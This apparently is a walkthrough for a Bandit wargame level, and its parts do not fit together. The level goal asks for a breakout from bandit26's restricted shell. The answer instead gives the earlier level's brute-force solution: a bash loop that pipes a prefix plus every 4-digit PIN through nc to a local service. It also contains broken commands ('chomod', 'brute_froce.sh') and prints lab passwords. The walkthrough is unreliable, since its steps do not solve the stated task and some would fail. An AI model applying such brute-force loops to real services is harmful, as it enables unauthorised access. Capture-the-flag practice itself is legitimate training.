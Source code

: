 # Bandit Level 24 → Level 25

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not `/bin/bash`, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

- `ssh`
- `cat`
- `more`
- `vi`
- `ls`
- `id`
- `pwd`

# Answer

To solve Bandit Level 25 → Level 26, you need to understand the shell being used for user bandit26 and find a way to break out of it. Here are the steps:

1. Log into the server for Level 25 using SSH. The command is:

   ```bash
   ssh bandit25@bandit.labs.overthewire.org -p 2220
   ```

   Enter the password when prompted (the password is the one you found in Level 24).

2. Determine if the shell has any limitations or restrictions. You can also use the `id` command to check your current user information:

   ```bash
   id
   ```

3. Explore the file system using basic commands like `ls`, `pwd`, and `cd` to understand the environment.

4. Create a temporary directory for brute-force script:

   ```bash
   mkdir /tmp/level25
   cd /tmp/level25
   ```

5. If the shell allows you to use a text editor like `vim`, you can use it to view and edit files:

   ```bash
   vim brute_force.sh
   ```

6. Paste the script:

   ```bash
   #!/bin/bash

   for i in {0000..9999}; do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
   done
   ```

   This Bash script generates and prints strings by combining a fixed prefix (`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`) with numbers from `0000` to `9999` using a `for` loop. Each line of output consists of the prefix followed by a number from the specified range.

7. Change permission of the script for it to be executed:

   ```bash
   chomod u+x brute_froce.sh
   ```

8. Execute script:

   ```bash
   ./brute_force.sh | nc localhost 30002 | grep -v "Wrong"
   ```

   ```
   uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
   ```

   The command is used for a brute-force attack against a service running on localhost at port 30002. The script generates combinations, the `nc` command sends them to the service, and `grep` filters out lines indicating unsuccessful attempts. The remaining output may represent successful attempts or some specific response from the service.

   So, when you use `grep -v`, it will output lines from the input that do not contain the specified pattern. It's a way to exclude lines that match a particular expression.

9. Use the obtained password to log in to Level 26 using SSH:

   ```bash
   ssh bandit26@bandit.labs.overthewire.org -p 2220
   ```

Congratulations! You've completed Bandit Level 25 → Level 26. Keep going, and feel free to ask if you have any questions!
